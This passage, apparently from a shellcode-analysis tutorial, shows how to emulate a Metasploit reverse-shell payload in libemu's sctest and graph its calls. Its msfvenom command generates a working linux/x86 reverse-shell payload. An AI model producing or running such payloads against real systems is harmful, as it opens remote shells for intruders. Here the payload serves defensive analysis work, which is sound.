 Now, i will use the "sctest" tool within Libemu, which is a tool used for detecting and analyzing shellcode.

* Note: sctest requires input data in form of raw bytes, so we have to convert our shellcode into raw data first. 
First, i will generate our MSF shellcode in raw format, using msfvenom.

```bash
msfvenom -p linux/x86/shell_reverse_tcp -f raw > reverseshell.bin
```
where:
* -p payload
* -f format of generated payloads. For complete list type msfvenom --help-formats

The next step will be to utilize "sctest" on the raw version of the reverse_shell.

```bash
cat reverseshell.bin | ./sctest -vvv -Ss 10000 -G reverse_shellcode.dot
dot reverse_shellcode.dot -T png > reverse_shellcode.png
```
where:
* -v, --verbose : be verbose, can be used multiple times, f.e. -vv
* -S, --stdin : read shellcode/buffer from stdin
* -s INTEGER : max number of steps to run
* -G FILEPATH : save a dot formatted callgraph in filepath
* -T png FILEPATH : Transform the given file into png image.

We will be presented with this graphical presentation by visiting the reverse_shellcode.png

